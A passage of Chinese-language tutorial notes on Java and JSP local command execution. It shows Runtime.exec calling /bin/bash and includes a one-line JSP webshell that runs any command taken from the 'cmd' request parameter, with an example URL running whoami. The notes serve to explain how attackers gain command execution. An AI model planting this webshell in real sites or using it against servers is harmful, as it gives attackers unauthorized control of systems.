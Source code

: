 #### Linux下调用/bin/bash

```java
String [] cmd = {"/bin/bash","-c","ls"};
Process proc = Runtime.getRuntime().exec(cmd);
```

#### 根据系统选择合适的解释器

```java
System.getProperty("os.name");
```



## JSP本地命令执行：

jsp就是Java的网页文件

Java原生提供了对本地系统命令执行的支持，黑客通常会`RCE利用漏洞`或者`WebShell`来执行系统终端命令控制服务器的目的。

对于开发者来说执行本地命令来实现某些程序功能(如:ps 进程管理、top内存管理等)是一个正常的需求，而对于黑客来说`本地命令执行`是一种非常有利的入侵手段。

#### Runtime命令执行测试

#### runtime-exec2.jsp

```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>

www.y5neko.com/1.jsp?cmd=whoami
```

<img src="image/image-20230709170039712.png" alt="image-20230709170039712" style="zoom:80%;" />
